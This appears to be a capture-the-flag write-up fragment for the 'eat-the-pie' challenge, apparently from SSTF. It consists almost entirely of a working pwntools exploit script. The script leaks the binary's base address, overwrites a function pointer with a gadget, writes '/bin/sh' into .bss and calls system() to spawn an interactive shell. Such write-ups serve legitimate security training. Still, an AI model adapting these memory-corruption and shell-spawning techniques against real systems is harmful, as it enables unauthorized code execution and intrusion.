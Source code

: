 

# Exploit

---

```python
from pwn import*

#p = remote('eat-the-pie.sstf.site', '1337')
p = process('./target')
e = ELF('./target')

read_plt = e.plt['read']
system = e.plt['system']
bss = e.bss()

# leak binary base
payload = 'A'*12 + 'BBBB'
p.sendlineafter('Select > ', payload)

p.sendlineafter('Select > ', '4')
p.recvuntil('BBBB')
leak = u32(p.recv(4)) - 0x74d
log.info(hex(leak))

# overflow vtable with gadget
payload = '-3'+ '\x00\x00' + p32(leak+0x970) # read() in pwnme() without len
p.sendlineafter('Select > ', payload)

# arbitrary write to bss
payload = p32(0) + p32(leak+bss) + p32(8) + 'AAAA' + p32(leak+read_plt)
p.sendline(payload)
p.sendline('/bin/sh\x00')

# overflow vtable with gadget
payload = '-3'+ '\x00\x00' + p32(leak+0x970)
p.sendlineafter('Select > ', payload)

# system("/bin/sh");
payload = 'AAAABBBBCCCC'+ p32(leak+system) + p32(leak+0xa99) + p32(leak+bss)
p.sendline(payload) # 0xa99 == pop pop pop ret

p.interactive()
```

![](sstf-eat-the-pie/image15.png)

Q.E.D